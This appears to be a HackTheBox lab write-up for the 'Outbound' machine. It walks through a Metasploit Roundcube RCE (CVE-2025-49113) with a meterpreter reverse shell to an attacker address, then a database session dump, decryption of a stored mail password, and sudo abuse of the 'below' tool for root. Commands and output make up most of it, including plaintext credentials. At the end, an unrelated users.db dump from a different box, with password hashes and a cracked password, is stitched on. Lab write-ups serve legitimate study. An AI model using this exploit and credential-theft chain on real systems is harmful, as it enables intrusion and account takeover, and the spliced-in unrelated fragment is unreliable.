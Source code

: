 ```yaml
---
layout: post
title: HackTheBox Outbound 
description: Easy-Rated HTB Machine
category: Labs
tags: linux privilege-escalation symlink webmail roundcube
image: assets/htb-outbound-preview.png
date: 2025-08-15 12:06 +0100
---
```

## TL;DR 


## Enumeration

### Nmap 

```bash 
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
|   256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we setup `/etc/hosts`

```bash 
echo 10.10.11.77 outbound.htb mail.outbound.htb
```

>Other enumeration/fuzzing didn't lead to anything, so we move on to the web app.
{: .prompt-warning }

## Foothold

Accessing with the given credential of `tyler` leads to a vulnerable version of `Roundcube Webmail 1.6.10` with `CVE‑2025‑49113`.

There is a metasploit exploit for this CVE :

```bash 
msf6 > search CVE‑2025‑49113                                                                                                               
[-] No results from search                                                                                                                 
msf6 > search exploit roundcube                                                                                                            
                                                                                                                                           
Matching Modules                                                                                                                           
================                                                                                                                           
                                                                                                                                           
   #  Name                                                  Disclosure Date  Rank       Check  Description                                 
   -  ----                                                  ---------------  ----       -----  -----------                                 
   0  exploit/multi/http/roundcube_auth_rce_cve_2025_49113  2025-06-02       excellent  Yes    Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Obj
ect Deserialization 

   <REDACTED>                                                                                                                                        
                                                                                                                                           
msf6 > use 0                                                                                                                               
[*] Using configured payload linux/x64/meterpreter/reverse_tcp


msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set LHOST 10.10.14.194                                                        
LHOST => 10.10.14.194                                                                                                                      
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set USERNAME tyler                                                            
USERNAME => tyler                                                                                                                          
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set PASSWORD LhKL1o9Nm3X2                                                     
PASSWORD => LhKL1o9Nm3X2                                                                                                                   
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set RHOSTS mail.outbound.htb                                                        
RHOSTS => mail.outbound.htb                                                                                                                
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > run

<REDACTED>
meterpreter>
```

But the thing is we still don't have access with a user other than the `www-data` one. 


## Lateral Movement 


### Tyler User

Simply `su tyler` with the same password given as a foothold will land us a shell as `tyler`.

After gaining shell access through meterpreter, I looked for config files using: 

```bash 
find / -name *conf* 2>/dev/null | grep roundcube
``` 

And we get some config files with some interesting ones:

```bash
$config['db_dsnw'] = 'mysql://<REDACTED>:<PASS>@localhost/<REDACTED>';

<REDACTED>

$config['des_key'] = '<REDACTED>';

$config['des_key'] = 'rcmail-!24ByteDESkey*Str';

```

Since the shell isn't interactive, we should dump anything with one command: 

```bash 
mysql -u roundcube -p<PASS> -h localhost roundcube -e 'use roundcube;select * from session;' -E                                    
```



``` 
*************************** 1. row ***************************                                                                     [0/1902]
sess_id: 6a5ktqih5uca6lj8vrmgh9v0oh
changed: 2025-06-08 15:46:40
     ip: 172.17.0.1
   vars: <REDACTED>
*************************** 2. row ***************************
sess_id: c2r6gpikgg3rb5drcm62hr73sb
changed: 2025-08-15 09:41:37
     ip: 172.17.0.1
   vars: bGFuZ3VhZ2V8czo1OiJlbl9VUyI7dGVtcHxiOjE7cmVxdWVzdF90b2tlbnxzOjMyOiJRNkpncXhuUzdSenN0a1RMbVhTYTJwVGJPeTV2bXZJRCI7
*************************** 3. row ***************************
sess_id: dd6meghpbbic254m3jjm208jjv
changed: 2025-08-15 09:32:56
     ip: 172.17.0.1
   vars: <REDACTED>
```

Now decoding the vars from the first session we get: 
```bash 
language|s:5:"en_US";imap_namespace|a:4:{s:8:"personal";a:1:{i:0;a:2:{i:0;s:0:"";i:1;s:1:"/";}}s:5:"other";N;s:6:"shared";N;s:10:"prefix_out";s:0:"";}imap_delimiter|s:1:"/";imap_list_conf|a:2:{i:0;N;i:1;a:0:{}}user_id|i:1;username|s:5:"jacob";storage_host|s:9:"localhost";storage_port|i:143;storage_ssl|b:0;password|s:32:"<REDACTED>";login_time|i:1749397119;timezone|s:13:"Europe/London";STORAGE_SPECIAL-USE|b:1;auth_secret|s:26:"<REDACTED>";request_token|s:32:"TIsOaABA1zHSXZOBpH6up5XFyayNRHaw";task|s:4:"mail";skin_config|a:7:{s:17:"supported_layouts";a:1:{i:0;s:10:"widescreen";}s:22:"jquery_ui_colors_theme";s:9:"bootstrap";s:18:"embed_css_location";s:17:"/styles/embed.css";s:19:"editor_css_location";s:17:"/styles/embed.css";s:17:"dark_mode_support";b:1;s:26:"media_browser_css_location";s:4:"none";s:21:"additional_logo_types";a:3:{i:0;s:4:"dark";i:1;s:5:"small";i:2;s:10:"small-dark";}}imap_host|s:9:"localhost";page|i:1;mbox|s:5:"INBOX";sort_col|s:0:"";sort_order|s:4:"DESC";STORAGE_THREAD|a:3:{i:0;s:10:"REFERENCES";i:1;s:4:"REFS";i:2;s:14:"ORDEREDSUBJECT";}STORAGE_QUOTA|b:0;STORAGE_LIST-EXTENDED|b:1;list_attrib|a:6:{s:4:"name";s:8:"messages";s:2:"id";s:11:"messagelist";s:5:"class";s:42:"listing messagelist sortheader fixedheader";s:15:"aria-labelledby";s:22:"aria-label-messagelist";s:9:"data-list";s:12:"message_list";s:14:"data-label-msg";s:18:"The list is empty.";}unseen_count|a:2:{s:5:"INBOX";i:2;s:5:"Trash";i:0;}folders|a:1:{s:5:"INBOX";a:2:{s:3:"cnt";i:2;s:6:"maxuid";i:3;}}list_mod_seq|s:2:"10";
```

### Jaccob User

The important fields are :
- `password` .
- `auth_secret` .

In [Here](https://www.roundcubeforum.net/index.php?topic=23399.0) we can find the way roundcube encrypts the database.

So using Cyberchef we can get the IV for the 3DES decryption, which is the first 8 bytes of the encrypted password (after decoding it with base64)
![Cyberchef1](assets/htb-outbound-3.png)

With the final result of :

![Cyberchef result](assets/htb-outbound-4.png)



>Note that the first 8 invalid characters are due to the recipe I put. I didn't remove the first 8 bytes, so you can remove them manually and login with:
`jacob:595mO8DmwGeD`
{: .prompt-warning }

595mO8DmwGeD

## User Flag

Simply `su` as `jacob` and we can read the Inbox mails with clear-text creds
```bash 
ssh jacob@10.10.11.77
```

>And we successfully get the User flag.
{: .prompt-tip }

## Privilege Escalation

```bash 
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

Below is a resource monintoring tool, already mentionned in a mail, which we will try to exploit and gain higher privileges since we can run it as `sudo`.

```bash 
jacob@outbound:~$ sudo /usr/bin/below -h
Usage: below [OPTIONS] [COMMAND]

Commands:
  live      Display live system data (interactive) (default)
  record    Record local system data (daemon mode)
  replay    Replay historical data (interactive)
  debug     Debugging facilities (for development use)
  dump      Dump historical data into parseable text format
  snapshot  Create a historical snapshot file for a given time range
  help      Print this message or the help of the given subcommand(s)

Options:
      --config <CONFIG>  [default: /etc/below/below.conf]
  -d, --debug            
  -h, --help             Print help
```

Some searching leads to:
![](assets/htb-outbound-5.png)

And we confirm we're indeed vulnerable: 

![vuln](assets/htb-outbound-6.png)

Just search for anyt poc online, the exploit isn't hard. And we succesfully get the root flag. 

![Here](assets/htb-outbound-7.png)

>Rooted.
{: .prompt-tip }



```# ARTIFICAL

$ cat instance/users.db
EitablemodelmodelCREATE TABLE model (
        id VARCHAR(36) NOT NULL,
        filename VARCHAR(120) NOT NULL,
        user_id INTEGER NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id)
))=indexsqlite_autoindex_model_1model]tableuseruserCREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(100) NOT NULL,
        email VARCHAR(120) NOT NULL,
        password VARCHAR(200) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username),
        UNIQUE (email)
?K;index''Marti@arti.htbarti@arti.htb445365ad804c1afe78ad5a5f3bd1fa83'Mtesttest@test.com098f6bcd4621d373cade4e832627b4f69+Madminadmin@gmail.com92d7ddd2a010c59511dc2905b7e14f64</Mpruebaprueba@prueba.comc893bad68927b457dbed39460e6afd62<3Mmarymary@artificial.htbbf041041e57f1aff3be7ea1abd6129d0>5Mroyerroyer@artificial.htbbc25b1f80f544c0ab451c02a3dca9fc6@7Mrobertrobert@artificial.htbb606c5f5136170f15444251665638b36<3Mmarkmark@artificial.htb0f3d8c76530022670f1c6029eed09ccb<3Mgaelgael@artificial.htbc99175974b6e192936d97224638a34f8
        'arti@arti.htb test     admin
pruebmary       royer
robermark       gael
        8\8pJ'arti@arti.htb     'test@test.co+admin@gmail.com/prueba@prueba.com3mary@artificial.htb5royer@artificial.htb7robert@artificial.htb3mark@artificial.htb3  g\\l@artificial.htb

RPU[e6312879-2340-4ee1-bf6a-6508327ff245e6312879-2340-4ee1-bf6a-6508327ff245.h5 R
)(Ue6312879-2340-4ee1-bf6a-6508327ff245($









gael:mattp005numbertwo```
